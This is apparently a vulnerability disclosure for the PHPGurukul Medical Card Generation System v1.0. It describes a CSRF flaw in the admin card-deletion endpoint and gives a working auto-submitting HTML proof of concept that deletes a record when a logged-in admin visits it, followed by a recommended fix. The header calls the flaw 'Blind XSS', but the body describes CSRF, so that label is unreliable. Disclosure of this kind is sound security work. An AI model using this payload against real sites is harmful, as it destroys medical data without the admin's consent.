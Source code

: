 **Project Name & Repo URL:**
[ Medicalcard Generations System](https://phpgurukul.com/medical-card-generation-system-using-php-and-mysql/)

**Vulnerability Type:**
Privilege Escalation via Blind XSS

**Affected Version(s):** v1.0

**💣Vulnerability Description:**
A Cross-Site Request Forgery (CSRF) vulnerability exists in the Manage Card functionality (/mcgs/admin/manage-card.php) of the Medical Card Generation System developed by PHPGurukul. The vulnerable endpoint allows an authorized admin to delete medical card records by sending a simple GET request without verifying the origin of the request (missing CSRF token and missing Origin/Referer validation). An attacker can craft a malicious webpage that, when visited by a logged-in admin, will silently trigger the deletion of a medical card record without the admin's knowledge or consent. This compromises the integrity and availability of critical medical data.

**👩‍💻Impact:**
Unauthorized Medical-Card Detail Deletion.

**🛜Proof-of-Concept (PoC):**

1)There was a delete functionality where only authenticated admin can delete medical-card information.
![1](https://github.com/user-attachments/assets/6284da25-a49b-468f-ae1d-6023548d652f)
2) HTML code to send GET request to the endpoint `/mcgs/admin/manage-card.php`.
```
<html>
  <body>
    <form action="http://127.0.0.1/mcgs/admin/manage-card.php">
      <input type="hidden" name="id" value="3" />
      <input type="hidden" name="del" value="delete" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
3)Use the HTML code and craft a malicious URL.

![2](https://github.com/user-attachments/assets/be7c4f2c-63aa-42e7-bd31-92fff841122a)

4)After Admin clicks on the link, medical-card information will be deleted.
![3](https://github.com/user-attachments/assets/89787d6f-d7c5-47b5-a3c7-25b3e26d1764)
![4](https://github.com/user-attachments/assets/c8565a43-b7a6-469a-a61e-2980a011fbbb)
![5](https://github.com/user-attachments/assets/49735bc4-3edb-42e5-bf94-c958cd8817c4)

**Recommendation:**

Implement of CSRF tokens in admin forms, enforce SameSite cookies, and validate request origin to prevent unauthorized actions.
